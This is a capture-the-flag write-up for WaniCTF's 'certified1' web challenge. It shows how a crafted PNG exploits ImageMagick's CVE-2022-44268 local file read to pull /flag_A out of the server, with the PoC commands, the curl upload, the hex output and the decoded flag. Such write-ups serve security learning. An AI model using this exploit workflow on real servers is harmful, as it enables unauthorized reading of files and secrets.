

# certified1:Web:226pts
最近流行りの言語を使った安全なウェブアプリが完成しました！  
We have released a secure web application using a state-of-the-art language!  
[https://certified-web.wanictf.org](https://certified-web.wanictf.org/)  

---

この問題にはフラグが2つ存在します。ファイル`/flag_A`にあるフラグをcertified1に、環境変数`FLAG_B`にあるフラグをcertified2に提出してください。  
There are two flags in this problem. Please submit the flag in file `/flag_A` to certified1 and one in the environment variable `FLAG_B` to certified2.  
Note: "承認, ワニ博士" means "Approved, Dr. Wani" in Japanese.  

[web-certified1.zip](web-certified1.zip)  

# Solution
問題文より2つフラグがあるようなので、初めに簡単そうな`/flag_A`の読み取りを目指す。  
URLにアクセスすると、承認欲求を満たせるサービスのようだ。  
  
画像をあげると、承認される。  
  
ソースを見てやるとrustで書かれているようで、アップロードしたファイルを以下のような処理に渡している。  
```rust
~~~
    let child = Command::new("sh")
        .args([
            "-c",
            "timeout --signal=KILL 5s magick ./input -resize 640x480 -compose over -gravity southeast ./overlay.png -composite ./output.png",
        ])
        .current_dir(working_directory)
        .stdin(Stdio::null())
        .stdout(Stdio::null())
        .stderr(Stdio::piped())
        .spawn()
        .context("Failed to spawn")?;
~~~
```
ImageMagickのようだ。  
Dockerfileを見ると以下の通りで7.1.0-51とある。  
```Dockerfile
~~~
ARG MAGICK_URL="https://github.com/ImageMagick/ImageMagick/releases/download/7.1.0-51/ImageMagick--gcc-x86_64.AppImage"
RUN curl --location --fail -o /usr/local/bin/magick $MAGICK_URL && \
    chmod 755 /usr/local/bin/magick
~~~
```
pngからpngの変換で、CVE-2022-44268のLFIが出ていたことを思い出す。  
バージョン的には7.1.0-49なはずだが、ひとまず[PoC](https://github.com/Sybil-Scan/imagemagick-lfi-poc.git)で刺して`/flag_A`を読み取ってみる。  
```bash
$ git clone https://github.com/Sybil-Scan/imagemagick-lfi-poc.git
$ cd imagemagick-lfi-poc/
$ python generate.py -f '/flag_A' -o exploit.png

   [>] ImageMagick LFI PoC - by Sybil Scan Research <research@sybilscan.com>
   [>] Generating Blank PNG
   [>] Blank PNG generated
   [>] Placing Payload to read /flag_A
   [>] PoC PNG generated > exploit.png
$ curl https://certified-web.wanictf.org/create -F file=@exploit.png -L -o res.png
$ identify -verbose res.png
~~~
    Raw profile type:

      42
464c41477b3768655f736563306e645f663161395f31735f77343174316e395f6630725f
793075217d0a
~~~
$ python -c 'print(bytes.fromhex("464c41477b3768655f736563306e645f663161395f31735f77343174316e395f6630725f793075217d0a"))'
b'FLAG{7he_sec0nd_f1a9_1s_w41t1n9_f0r_y0u!}\n'
```
`/flag_A`を読み取れ、flagが得られた。  

## FLAG{7he_sec0nd_f1a9_1s_w41t1n9_f0r_y0u!}